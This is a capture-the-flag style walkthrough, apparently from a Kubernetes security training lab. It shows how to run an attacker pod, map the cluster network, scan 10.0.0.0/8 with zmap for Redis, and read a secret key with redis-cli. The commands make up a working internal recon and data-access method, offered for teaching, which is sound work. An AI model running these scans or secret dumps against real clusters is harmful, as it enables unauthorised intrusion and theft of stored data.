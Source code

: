 ## 🎉 Solution & Walkthrough

### 🎲 Method 1

* Let's run the `hacker-container` in the default namespace by using the following command to get started

```bash
kubectl run -it hacker-container --image=madhuakula/hacker-container -- sh
```

:::tip

If you don't see the terminal TTY, just press Enter key on your keyboard.

:::

* First, we need to understand the cluster IP range information so that we can use the port scanners to scan the entire cluster range as we don't know which IP address these what services are running

* Some of the simple commands to understand and get more information about the network are as below

```bash
ip route
```

```bash
ifconfig
```

```bash
printenv
```

![Scenario 11 recon](./sc-11-2.png)

* Based on the analysis/understanding of the system. We can run the internal scan for the entire cluster range using `zamp` on port 6379 (the default port of Redis - assuming the cache service is Redis, but there is no limit for the testing here, in real-world we see a lot of internal services like ElasticSeach, Mongo, MySQL, etc.)

```bash
zmap -p 6379 10.0.0.0/8 -o results.csv
```

:::note

To run `zmap` on 10.0.0.0/8 you may need adjust the blacklist (/etc/zmap/blacklist.conf) configuration

:::


![Scenario 11 zmap](./sc-11-3.png)

* Let's look at the results returned from the scan so that we can see if we can access them from the current pod and current namespace

![Scenario 11 output ips](./sc-11-4.png)

:::tip

There is also another way to access the services/pods in the Kubernetes. For example using the [DNS](https://kubernetes.io/docs/concepts/services-networking/service/#dns) `cache-store-service.secure-middleware` (servicename.namespace).

:::

* As we have identified the IP address of the service, now we can use the default `redis` using client `reds-cli` to talk to the service and explore

```bash
redis-cli -h 10.12.0.2
```

* To get all the available keys

```bash
KEYS *
```

* To get the specific key information using `GET`

```bash
GET SECRETSTUFF
```

![Scenario 11 redis access](./sc-11-5.png)

:::tip

There are many other services and resources exposed within the cluster like ElasticSearch, Mongo, etc. So if your recon skill is good then you got a gold mine here.

:::
